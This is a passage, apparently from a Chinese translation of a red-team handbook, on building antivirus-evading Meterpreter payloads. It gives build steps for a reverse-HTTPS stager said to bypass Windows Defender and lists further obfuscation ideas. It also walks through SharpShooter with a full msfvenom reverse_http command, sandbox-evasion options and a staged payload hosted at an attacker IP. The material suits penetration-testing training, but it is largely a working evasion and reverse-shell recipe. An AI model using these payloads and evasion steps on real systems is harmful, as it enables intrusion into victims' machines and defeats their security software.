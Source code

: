 这里提供的 payload 具体示例具有一些更高级的功能。这样做是为了使它成为地址无关代码（PIC），并且不需要导入。这段代码是基于 thealpiste 的代码开发的
( https://github.com/thealpiste/C_ReverseHTTPS_Shellcode )。

提供的示例 payload 执行以下操作：
* 所有代码都在内存中定位 DLL 和函数以便执行;无需导入任何模块。这是通过手动为所有使用的函数[打桩](https://blog.csdn.net/wangwencong/article/details/8189778)，然后在内存中搜索它们来实现的。
* 使用 Wininet 将实际的 HTTPS 请求执行回配置的 Metasploit 处理程序。
* 接收 `metsrv.dll`，并执行 blob 数据。Metasploit 为这些文件提供服务的方式，意味着入口点是缓冲区的开头。

这个功能是与执行 msfvenom 中构建的 payload 完全相同的过程。然而，msfvenom 以一种容易被预测和检测到的方式将这些添加到模板可执行程序中，并且这种方式是不可配置的。因此，大多数杀毒软件一直可以识别到它们。但是，仅仅需要一点编码技巧，你就可以重新编写这个 payload 的功能。重写的 payload 很小，并且可以绕过当前存在的任何检测。在撰写本文时，已经测得此 payload 可以绕过所有杀毒软件，包括 Windows Defender。

创建 payload（完整的 payload 位于[这里](http://bit.ly/2ELYkm8)）：
* 在 VS 2013中，打开 metasploit-payloads\c\x64_defender_bypass\x64_defender_bypass.vcxproj
* 在 x64_defender_bypass 下有一个 settings.h 文件。打开此文件并将 HOST 和 PORT 信息修改为你的 Meterpreter 处理程序（handler）信息。
* 确保将构建模式设置为 `Release` 并编译 `x64` 
* 保存并构建
* 在 `metasploit-payloads\c\x64_defender_bypass\x64\Release` 下，将创建一个新的二进制文件 `x64_defender_bypass.exe`。在运行了 Windows Defender 的受害计算机上执行此 payload。当此项目构建成功，Windows Defender 不能检测到这个 payload。

你现在拥有一个深度混淆过的 Meterpreter 二进制文件和混淆过的传输层，以绕过所有默认的保护。现在这仅仅是一个让你入门的 POC。只要本书一发布，我可以预见到其中一些技术不久就会被检测出签名。你还可以采取更多措施来更好地规避检测工具。例如，你可以：
* 使用 clang 混淆工具链来构建
* 对所有字符串使用字符串加密库
* 更改 Meterpreter 入口点（目前是 Init ）
* 创建一个自动化脚本，为所有 payload 类型添加空指令（nops）
* 编辑 payload 生成的实际 ruby，以便在每次运行时随机化 payload

## SharpShooter
作为红队队员，最耗时的事情之一就是创建可以躲避新一代杀毒软件和沙盒安全机制的 payload。我们一直在寻找新的方法来创建我们的初始 `stager`。一个名为 `SharpShooter` 的工具采用了许多反沙盒技术和 James Forshaw 的 DotNetToJScript 来执行 Windows 脚本格式的 shellcode（CACTUSTORCH工具——   https://github.com/mdsecactivebreach/CACTUSTORCH ）。

摘自 [MDSec 网站对于 SharpShooter 的描述](https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/)：“SharpShooter 支持 `staged` 和 `stageless` 这两种类型 payload 的执行。`staged` 执行可以在 HTTP/HTTPSS、DNS 或 HTTP/HTTPS 与 DNS 相结合等这些情况下进行。当一个 `staged` payload 执行时，它将尝试检索已经压缩的 `C#` 源代码文件，之后使用所选的传输技术进行 base64 编码。随后在主机上使用 .NET CodeDom 动态编译器对 `C#` 源代码进行下载和编译。然后使用反射从源代码执行所需的方法。”

让我们快速把一个示例走一遍：
* python SharpShooter.py --interactive 
* 1 - For .NET v2
* Y - Staged Payload 
* 1 - HTA Payload
* 可以选择使用以下防沙盒技术：
    * 你可以选择你想用的技术来绕过沙盒机制从而成功的执行你的恶意软件。
    * [1] Key to Domain
    * [2] 确保 Domain 加入
    * [3] 检查沙盒痕迹
    * [4] 检查错误的 MAC 地址
    * [5] 检查调试
* 1 - 网络传输
* Y - 内置 shellcode 模板
* shellcode 作为一个字节数组
    * 打开一个新终端并创建一个 C# 语言的 Meterpreter payload
    * msfvenom -a x86 -p windows/meterpreter/reverse_http LHOST=10.100.100.9 LPORT=8080 EnableStageEncoding=True StageEncoder=x86/shikata_ga_nai -f csharp
    * 复制 `{` 和 `}` 之间的所有内容并作为字节数组提交
* 为 C# 网络传输提供 URI
    * 输入攻击者机器的IP/端口和文件。示例：http://10.100.100.9/malware.payload
* 提供输出文件的文件名
    * 恶意软件
* Y - 你想将 payload 嵌入到 HTML 文件中吗？ 
* 使用自定义（1）或预定义（2）模板
    * 要进行测试，请选择任意预定义模板
* 将新创建的恶意文件移动到你的 Web 目录下